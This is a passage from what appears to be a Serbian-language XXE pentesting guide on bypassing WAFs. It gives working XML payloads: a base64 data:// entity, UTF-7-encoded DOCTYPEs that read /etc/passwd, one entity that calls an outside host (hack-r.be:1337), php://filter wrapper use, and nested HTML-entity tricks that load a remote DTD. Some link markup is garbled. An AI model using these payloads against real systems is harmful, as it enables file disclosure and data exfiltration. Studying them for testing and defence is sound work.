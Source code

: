 Drugi primer može se pronaći [ovde](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## Bypass-ovanje WAF-a i zaštita

### Base64

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

Ovo radi samo ako XML server prihvata `data://` protokol.

### UTF-7

Možete koristiti \[**"Encode Recipe**" of cyberchef ovde ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28%27UTF-7%20%2865000%29%27%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) transformisati u UTF-7.

```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

### Bypass protokola File:/

Ako web koristi PHP, umesto korišćenja `file:/` možete koristiti **php omotače** `php://filter/convert.base64-encode/resource=` da **pristupite internim fajlovima**.

Ako web koristi Java, možete proveriti [**jar: protokol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entiteti

Triks sa [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
Možete kreirati **entitet unutar entiteta** enkodirajući ga sa **html entitetima** i zatim ga pozvati da **učita dtd**.\
Imajte na umu da **HTML Entiteti** koji se koriste moraju biti **numerički** (kao \[u ovom primeru]\([https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,%27Numeric%20entities%27%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B\)%5C)).
